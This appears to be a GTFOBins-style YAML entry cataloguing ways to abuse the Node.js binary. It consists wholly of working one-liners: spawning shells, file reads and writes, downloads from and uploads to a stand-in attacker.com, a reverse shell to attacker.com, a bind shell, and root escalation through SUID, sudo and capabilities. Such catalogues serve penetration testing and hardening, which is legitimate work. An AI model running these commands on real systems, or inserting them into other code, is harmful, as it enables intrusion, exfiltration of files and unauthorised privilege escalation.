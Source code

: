 ```yaml
---
functions:
  shell:
    - code: |
        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
  file-write:
    - code: node -e 'require("fs").writeFileSync("file_to_write", "DATA")'
  file-read:
    - code: node -e 'process.stdout.write(require("fs").readFileSync("/bin/ls"))'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        node -e 'require("http").get(process.env.URL, res => res.pipe(require("fs").createWriteStream(process.env.LFILE)))'
  file-upload:
    - description: Send a local file via HTTP POST request.
      code: |
        export URL=http://attacker.com
        export LFILE=file_to_send
        node -e 'require("fs").createReadStream(process.env.LFILE).pipe(require("http").request(process.env.URL))'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        require("net").connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        })'
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        require("net").createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT)'
  suid:
    - code: |
        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'
  sudo:
    - code: |
        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
  capabilities:
    - code: |
        ./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
---
```

